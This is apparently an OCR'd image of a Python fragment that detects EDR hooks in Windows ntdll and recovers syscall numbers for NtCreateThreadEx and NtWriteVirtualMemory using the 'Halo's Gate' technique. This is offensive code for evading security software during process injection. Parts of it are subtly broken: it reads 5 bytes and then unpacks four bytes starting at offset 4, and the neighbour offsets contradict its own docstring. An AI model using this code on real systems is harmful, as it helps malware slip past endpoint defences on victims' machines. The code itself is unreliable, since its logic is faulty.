 ```python
        # For each syscall we need
        for func_name in ['NtCreateThreadEx', 'NtWriteVirtualMemory', ...]:
            # Get function offset in clean DLL
            clean_offset = self._find_export_offset(clean_ntdll, func_name)
            
            # Read clean bytes
            clean_bytes = clean_ntdll[clean_offset:clean_offset + 24]
            
            # Read loaded bytes
            loaded_bytes = (ctypes.c_ubyte * 24).from_address(ntdll_base + clean_offset)
            
            # Compare
            if bytes(loaded_bytes) != clean_bytes[:24]:
                # HOOKED! Use Halo's Gate to find nearby
                syscall_number = self._halo_gate(ntdll_base, func_name)
            else:
                # Clean - extract syscall number
                # mov r10, rcx; mov eax, <num>
                syscall_number = struct.unpack('<I', clean_bytes[4:8])[0]
            
            self.syscall_cache[func_name] = syscall_number
    
    def _halo_gate(self, ntdll_base: int, hooked_func: str) -> int:
        """
        Halo's Gate - calculate syscall from neighboring functions
        
        If NtCreateThreadEx is hooked:
        1. Check NtCreateThread (usually +1 syscall)
        2. Check NtCreateUserProcess (+2 syscall)
        3. Calculate hooked syscall from neighbors
        """
        # Find neighboring syscall functions
        neighbors = [
            ('NtCreateThread', -1),     # Usually 1 before
            ('NtCreateToken', -2),       # Usually 2 before
            ('NtCreateUserProcess', +1), # Usually 1 after
        ]
        
        for neighbor_name, offset in neighbors:
            neighbor_addr = self._get_function_address(ntdll_base, neighbor_name)
            if neighbor_addr:
                # Check if neighbor is hooked
                neighbor_bytes = (ctypes.c_ubyte * 5).from_address(neighbor_addr)
                if neighbor_bytes[0] == 0x4C and neighbor_bytes[3] == 0xB8:
                    # Clean! Extract syscall number
                    neighbor_syscall = struct.unpack('<I', bytes(neighbor_bytes[4:8]))[0]
                    
                    # Calculate target syscall
                    target_syscall = neighbor_syscall - offset
                    return target_syscall
        
        return None
```
